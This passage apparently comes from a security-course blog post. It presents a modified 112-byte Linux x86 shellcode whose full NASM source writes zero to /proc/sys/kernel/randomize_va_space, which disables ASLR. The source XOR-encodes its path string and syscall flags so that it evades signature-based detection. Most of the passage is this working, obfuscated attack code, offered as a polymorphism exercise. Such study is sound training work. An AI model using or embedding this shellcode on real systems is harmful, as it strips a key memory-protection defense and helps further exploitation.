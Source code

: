 In this case, `/proc/sys/kernel/randomize_va_space` holds a flag that controls ASLR. This shellcode writes a zero into this file, disabling it. 

My modified version shown below can also be found on github [here.](https://github.com/fbcsec/slae-assignments/blob/master/6-shellcode-polymorph/disable_aslr_modified.asm) It is 112 bytes.

```nasm
; Modified ASLR deactivation shellcode by fbcsec
; Original by Jean Pascal Pereira
; Original: http://shell-storm.org/shellcode/files/shellcode-813.php

global _start

section .text

_start:

jmp callsc

sc:
pop esi                     ; pop pointer to encoded string
mov ebx, esi                ; copy pointer to ebx
xor ecx, ecx                ; empty eax, ecx, and edx
mul ecx

decodestr:                  ; simple xor decoder stub for encoded '/proc/sys/kernel/randomize_va_space' string.
xor byte [esi], 0x41
jz short decoded
inc esi
jmp decodestr

decoded:
mov [esi], byte al          ; null terminate decoded string

mov cl, 0x08
yet_another_loop:           ; Get 0x08 into EAX
inc eax
loop yet_another_loop

push word 0x1ab             ; push/pop encoded flags
pop ecx
add cx, 0x111               ; decode flags
int 0x80                    ; make open(2) syscall


push eax
pop ebx
push eax                    ; push the file descriptor (which when pushed in this way null terminates whatever is pushed to the stack afterwards)
mov dx,0x9f87               ; push the characters '0:', xor encoded and backwards
xor dx, 0xa5b7              ; decode '0:' characters
push dx                     ; push these to the stack
push esp                    ; save pointer to this data
pop ecx
xor esi, esi
mov esi, edx
inc edx                     ; write only one byte of the saved data
mov al,0x4
int 0x80                    ; make write(2) syscall

push byte 0x06
pop eax
int 0x80

```